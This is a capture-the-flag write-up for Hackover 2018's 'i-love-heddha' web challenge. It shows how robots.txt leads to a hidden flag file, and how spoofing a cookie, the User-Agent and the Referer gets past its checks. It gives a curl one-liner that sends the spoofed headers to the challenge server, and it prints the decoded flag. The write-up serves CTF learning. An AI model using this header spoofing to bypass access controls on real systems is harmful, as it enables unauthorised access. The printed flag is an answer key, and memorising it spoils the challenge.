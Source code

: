 ## i-love-heddha
#### challenge
````
A continuation of the Ez-Web challenge. enjoy

207.154.226.40:8080
````
### idea
http://207.154.226.40:8080/robots.txt
```
User-agent: * Disallow: /flag/
```

http://207.154.226.40:8080/flag/
```
flag.txt (linking to falg.txt)
```

http://207.154.226.40:8080/flag/flga.txt
```
404 Error
```

http://207.154.226.40:8080/flag/flag.txt
```
Bad luck buddy
```
Set Cookie ```isAllowed=true```.
```
You are using the wrong browser, 'Builder browser 1.0.1' is required
```
Set User-Agent ```Builder browser 1.0.1```
```
You are refered from the wrong location hackover.18 would be the correct place to come from.
```
Set Referer ```hackover.18```
```
aGFja292ZXIxOHs0bmdyeVczYlMzcnYzclM0eXNOMH0=
```
This is the flag, base64 encoded.

### script
```shell
curl http://207.154.226.40:8080/flag/flag.txt --cookie "isAllowed=true" --header "User-Agent: Builder browser 1.0.1" --header "Referer: hackover.18" | base64 --decode
```

### flag
hackover18{4ngryW3bS3rv3rS4ysN0}
